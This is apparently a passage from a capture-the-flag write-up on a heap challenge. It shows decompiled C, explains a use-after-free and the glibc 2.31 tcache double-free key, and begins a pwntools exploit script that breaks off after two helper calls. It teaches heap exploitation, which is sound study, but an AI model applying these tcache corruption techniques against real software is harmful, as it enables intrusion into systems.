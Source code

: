 ```c

void math()
{
    unsigned int idx; // [rsp+Ch] [rbp-24h]
    __int64 values[3]; // [rsp+10h] [rbp-20h] BYREF

    memset(values, 0, sizeof(values));
    puts("Hieroglyph index:");
    idx = read_int();
    if(idx <= counter)
    {
        puts("Value to add to hieroglyph:");
        read(0, values, 24);
        chunks[idx][0] += values[0];
        chunks[idx][1] += values[1];
        chunks[idx][2] += values[2];
    }
    else
        puts("That hieroglyph doens't exist.");
}

```

## sƃnq (and a broad analysis)
We can see that the program is very simple, as is the main bug: a UAF in `delete()`. After `free()`ing a chunk there's no information stored about the new status of that chunk (*e. g.* setting it to NULL). We'd consider another bug of uninitialized memory in `create()` since the chunks aren't `memset()` before they are used.

The function `math()` is peculiar because it doesn't let us store information as it is in a chunk, it rather allows us to increment independently the three integers that each chunk hold.

We may also contemplate the utter **lack of ways to leak** any address of anything *at all*.

## Freeing then using (as rude as it sounds)
So we can start easy. All chunks are of size 0x20 so when `free()`d they'll go to the tcache's first bin. We are facing glibc 2.31, let's see how tcache chunks look like here.
```c
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;
} tcache_entry;
```
Ok, they added a `key` field used to detect double frees, well, with the UAF we can overwrite that key and forget about it.

Let's address first the obvious, we can exploit the UAF to make a chunk in the tcache point to the header of another chunk (or maybe to its own) in order to alter that chunk's size.
```python
def create():
    p.sendafter(b"Action: \n", b"1")
def delete(idx):
    p.sendafter(b"Action: \n", b"2")
    p.sendafter(b"index:\n", bytes(str(idx), 'utf-8'))
def edit(idx, data):
    p.sendafter(b"Action: \n", b"3")
    p.sendafter(b"index:\n", bytes(str(idx), 'utf-8'))
    p.readuntil(b"hieroglyph:\n")
    p.send(data)

create()
create()
```